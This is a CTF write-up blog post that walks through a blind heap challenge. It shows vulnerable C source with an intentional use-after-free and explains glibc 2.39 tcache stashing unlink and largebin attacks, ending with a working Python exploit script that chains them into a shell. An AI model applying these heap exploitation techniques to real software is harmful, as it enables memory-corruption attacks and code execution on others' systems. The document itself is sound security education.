









This past weekend, my team and I participated in the TRX 2026 CTF. It was one of the most difficult CTFs this year (so far, at least). Sadly, I skill-issued my way to the end of the 48 hour competition with zero solves. 
Luckily, my teammates were much more locked in and solved a bunch of challenges. I only managed to solve this blind heap challenge the day after the event ended, but it incorporates some cool techniques that I want to document for myself and for you. Let's start with the code.
## chall.c
I wrote some comments inside the code snippets to make it a little easier to understand. Also notice the complete absence of a read function, as I said before, this is a blind heap challenge, so no leaks. 

```c
void create() {
	unsigned int idx;
	unsigned int size;
	void* ptr;
	
	idx = get_idx();   // max 0x100 slots, more than enough...
	size = get_size(); // max 0x500 bytes (gets rounded to the next multiple of 16!!!)
	
	ptr = malloc(size);
	printf("allocated size: %d\n", size);
	
	ptrs[idx] = ptr;
	sizes[idx] = size;
}
```

```c
void update() {
	unsigned int idx;
	
	idx = get_idx();
	
	printf("enter %d bytes: ", sizes[idx]);
	// this function expects exactly sizes[idx] bytes, no more no less. 
	read_exactly(STDIN_FILENO, ptrs[idx], sizes[idx]);
}
```

```c
void delete() {
	unsigned int idx;
	
	idx = get_idx();
	free(ptrs[idx]); //use after free vulnerability!
}	
```

```c
void copy() {
	unsigned int dest;
	unsigned int src;
	
	dest = get_idx(); 
	src = get_idx();
	
	// because of the rounding in create() it is not possible to copy 0x8 bytes, only multiples of 16.
	
	memcpy(ptrs[dest], ptrs[src], min(sizes[dest], sizes[src]));
}
```

```c
//This is one of the menu options, so we only need to write that 16 bytes value into *admin
void win() {
	if (*admin == 0xdeadbeefdeadcafe) {
		puts("good boy");
		system("/bin/sh");
	} else 
		die("admin");
}
```

You notice that admin variable? It contains a pointer to a mapped memory area with a fixed address.

```c
admin = (unsigned long*) mmap((void*) 0x1337000, 8, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_FIXED | MAP_ANON, -1, 0);
```

This is very important because it is the only pointer we know of in the entire binary. Looking at the checksec output confirms this. 



## blind heap exploitation


We need a way to make `malloc()` return our admin pointer instead of a normal chunk. this would normally be solved by a tcache poisoning attack. But without a leak, we cannot recover the mangling key (I wrote about this key in a past writeup: [link](https://blog.davidherm.es/posts/babyheap/#tcache-poisoning)). So is it possible to make malloc return an arbitrary memory location through tcache without having to deal with the mangling key? Well... 
## tcache stashing unlink attack
This technique abuses a mechanism within the smallbins to move a user-controlled pointer into the tcache without needing to leak the tcache mangling key. 
### smallbins
Smallbins are **circular doubly-linked lists** that operate in a **FIFO (First-In, First-Out)** fashion, unlike LIFO (Last-In, First-Out) used by the tcache and fastbins. 
New chunks are inserted at the **head** (the front) of the bin and removed from the **tail** (the back) for allocation. On 64-bit systems, smallbins manage chunks ranging from `0x20` to `0x3F0` bytes.  Smallbins have no fixed count limit, unlike tcache chunks.



Looking at the size classes of the smallbin chunk it is possible to notice an **overlap** with tcache sizes. The reason can be explained by understanding that tcache lists can store only seven elements. When the tcache is full, the allocator must decide where to store the currently freed chunk. Chunks fitting fastbin sizes (typically `0x20` to `0x80` bytes) are stored in the fastbins. Larger chunks (up to `0x3F0` bytes for smallbins) are first placed into the **Unsorted Bin**. They are only sorted into their respective smallbins during a subsequent `malloc` request.
### tcache stashing
Because we mostly prefer to have our target chunk in the tcache, we can leverage a smallbin mechanism called _tcache stashing_. Simply put, when the tcache is empty and a chunk from a smallbin is requested, the requested chunk is returned to the user, and all remaining chunks in that smallbin size class get moved into the tcache. **The major advantage here is that smallbins do not mangle their pointers**. Therefore, if we can poison a smallbin chunk, we can move a user controlled pointer into the tcache without having to leak a mangled pointer.

Let's look at the glibc code that handles the stashing:

```c

// GLIBC 2.39 _int_malloc (https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3998)

if (in_smallbin_range (nb))
    {
		
		... malloc returns smallbin chunk ...
		
	      /* While bin not empty and tcache not full, copy chunks over.  */
	    while (tcache->counts[tc_idx] < mp_.tcache_count
			&& (tc_victim = last (bin)) != bin) {
			
			//tc_victim is the chunk we want to stash, as you can see we always take the last one from the smallbin.
			
			if (tc_victim != 0) 
			{
		    bck = tc_victim->bk; //the chunk before the last one.
		    set_inuse_bit_at_offset (tc_victim, nb);
			if (av != &main_arena)
				set_non_main_arena (tc_victim);
			    bin->bk = bck;   // Vulnerability
			    bck->fd = bin;   
			    tcache_put (tc_victim, tc_idx);
		    }
		}
	}
```

If we poison the `bk` pointer of a smallbin chunk so that it points to an arbitrary memory area, once the chunk gets stashed, at the next iteration, `tc_victim` will equal our arbitrary memory pointer. 

But the line directly after our vulnerability creates a problem: `bck->fd = bin` **dereferences the value stored in the** `bk` **position** of our fake chunk. Consequently, it is necessary that the `bk` field of our fake chunk contains a **valid, writable address**. This ensures the pointer can be dereferenced without crashing, allowing the execution to successfully reach the `tcache_put(my_pointer, tc_idx)` function.

We also need to remember that the stashing mechanism will try to move seven chunks into the tcache list. **When we poison a smallbin chunk we destroy the circular linked list**, this means that we need to be careful about what chunk we poison, best practice is to modify the 6th chunk so that our fake admin chunk becomes the seventh.



:::warning
This method alone **will not work**. Our admin memory area is completely empty, so this method would try to **dereference a non-existing pointer** in `admin + 0x08` and immediately crash the program.

```c
bck = tc_victim->bk; // Reads from admin + 0x08 ...
bck->fd = bin;       // Segfaults if bck isn't a valid, writable pointer
```

But let's imagine that there is a pointer for argument’s sake, we will learn later how to move a pointer to that position.
:::

### The attack in practice 

:::note
You can find a more general explanation of this attack in the shellfish how2heap repo: [link](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/tcache_stashing_unlink_attack.c)
:::

We can allocate 7 chunks of size `0x90` that will be used to fill the tcache. After that, we generate 6 chunks of the same size destined for the smallbin list, allocating `0x10` guard chunks after each of them so that they do not get coalesced. Then, we free the 7 tcache chunks, followed by the 6 smallbin chunks (but not the guard chunks).
The 6 smallbin chunks will be placed in the unsortedbin first, we must allocate a sufficiently large chunk so that the remaining chunks get moved into the smallbin list.



Now we can edit the top smallbin chunk's `bk` pointer by overwriting the pointer with the `&admin - 0x10` address, after this the `bins` view changes slightly:



If we now allocate 8 `0x90` sized chunks we would find the admin pointer in the tcache bin! But as i said before we still that pointer in the `bk` field.
## Largebin attack
This attack will help us move a heap pointer to the admin area, it is not really important what kind of pointer we use, as long as it is **dereferenceable** and the memory area it points to is writable. For this we need to understand how largebins work.
### Largebins
Largebins follow some of the same basic rules as smallbins: freed chunks get stored in the unsorted bins and if they are of the required size (`0x400` bytes for x86 64 bit) they are sorted into the largebins at the next malloc call. They also possess the normal `fd` and `bk` pointers to maintain the doubly linked list property. In largebins, this primary list is sorted in strictly **decreasing** order by chunk size. 



A notable addition is a **second** circular doubly linked list. For efficiency reasons different sizes are stored in the same bin (`0x400 - 0x43F, 0x440 - 0x47F`, etc.). The `fd_nextsize` and `bk_nextsize` pointers are used to quickly jump to the right size without having to scan every single chunk, these pointers are only used by the first chunk of a specific size-subclass.  To remove the overhead of having to move the `_nextsize` pointers, a malloc operation will remove the tail chunk of a specific size.
#### Example scenario
When new chunks of a preexisting size are added, they get appended after the same size head chunk. The diagram below shows that **LC3** was the first `0x420` chunk added,  making it the head that maintains the `_nextsize` pointers. When LC4 is sorted in, it is added directly after the head. Additionally a possible LC7 with size `0x420` would be added between LC3 and LC4. When a chunk gets malloced with size `0x420` the tail chunk is removed, in our example that is LC4.


### The attack 
The attack consists in an arbitrary heap pointer write, perfect for the **dereferencing** problem we have with the tcache stashing unlink attack.
The following `_int_malloc()` code handles the sorting of a new chunk (victim) into the largebin in the specific case in which it is the absolute smallest chunk being added. 

```c
// GLIBC 2.39 _int_malloc https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4169

victim_index = largebin_index (size);
bck = bin_at (av, victim_index);
fwd = bck->fd;

/* maintain large bins in sorted order */
if (fwd != bck) {

    ... stuff ...
    
    /* if smaller than smallest, bypass loop below */
    assert (chunk_main_arena (bck->bk));
    if ((unsigned long) (size) < (unsigned long) chunksize_nomask (bck->bk)) {
        fwd = bck; //the bin
        bck = bck->bk; //last chunk
        
        victim->fd_nextsize = fwd->fd; //the biggest head chunk
        
        victim->bk_nextsize = fwd->fd->bk_nextsize; // !!!
        fwd->fd->bk_nextsize = victim->bk_nextsize->fd_nextsize = victim; // !!!
        //  the line above can be rewritten as
        //  fwd->fd->bk_nextsize = victim;
        //  victim->bk_nextsize->fd_nextsize = victim;
    }
    else
    {
	    ... stuff ...
```

I marked the important lines with some exclamation marks. Let's imagine we have a big chunk in the largebin, and we are currently moving a smaller one into the same largebin. If we poison the `bk_nextsize` of the large chunk to another writable address, for example `&admin`, this code changes:

```c
victim->bk_nextsize = admin; //&admin gets stored in bk_nextsize of our victim.
fwd->fd->bk_nextsize = victim; //not important
victim->bk_nextsize->fd_nextsize = victim; //we store a pointer to victim inside the fd_nextsize of admin (admin+0x18)
```

Knowing this we simply need to save into `victim->bk_nextsize = admin-0x18`. In this way the pointer will be stored exactly in the `bk` position for the stashing unlink attack.  

:::note
You can find a more general explanation of this attack in the shellfish how2heap repo: [link](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/large_bin_attack.c)
:::

## Exploit goes brrr
Now that we understand how the two vulnerabilities work, we can chain them. We need to be careful to not break anything, let's start with the largebin part:

```python
    create(r, 1, 0x420) #Big one, we want to poison this one
    create(r, 2, 0x10)  #Guard
    create(r, 3, 0x410) #Small one, our victim
    create(r, 0, 0x10)  #Guard
    
    #Deleting chunk and allocating bigger chunk to move it to largebins
    delete(r, 1)        
    create(r, 0, 0x4a0)
    
    #Poisoning the large chunk 
    copy(r, 2, 1)
    update(r, 1, b"A"*0x10 + p64(0) + p64(admin-0x18) + b"B"*0x400)
    copy(r, 1, 2)
    
    #Deleting the small one
    delete(r, 3)
    create(r, 0, 0x4a0)
    
    #Cleaning the heap because we are good citizens
    create(r, 0, 0x400)
    create(r, 0, 0x3e0)
    create(r, 0, 0x30)

```

The last part helps to remove trash from the freelists. Now we can look in the `*admin` area where there should be a pointer now.



After this, the stage is prepared for our smallbin shenanigans. 

```python
	#creating 7 tcache chunks 
    for a in range(4, 11):
        create(r, a, 0x90)
    
    #creating 6 smallbin chunks + guards
    for a in range(11, 17):
        create(r, a, 0x90)
        create(r, 0, 0x10) #guard
       
    #populating tcache and smallbins
    for a in range(4, 17):
        delete(r, a)
    create(r, 0, 0x400)
    
    #Poisoning the last smallbin added (head of the list)
    update(r, 16, p64(0) + p64(admin-0x10) + b"B"*0x80)
    
    #Removing the tcache bins
    for a in range(7):
        create(r, 0, 0x90)
       
	#Triggering stash unlink
    create(r, 0, 0x90)
    
```

Looking in the `bins` we should see our chunk in the tcache list ready to be used.



The rest is easy. By allocating two chunks and writing in the second we can modify the admin area and write the text required, by triggering that menu option we get the flag.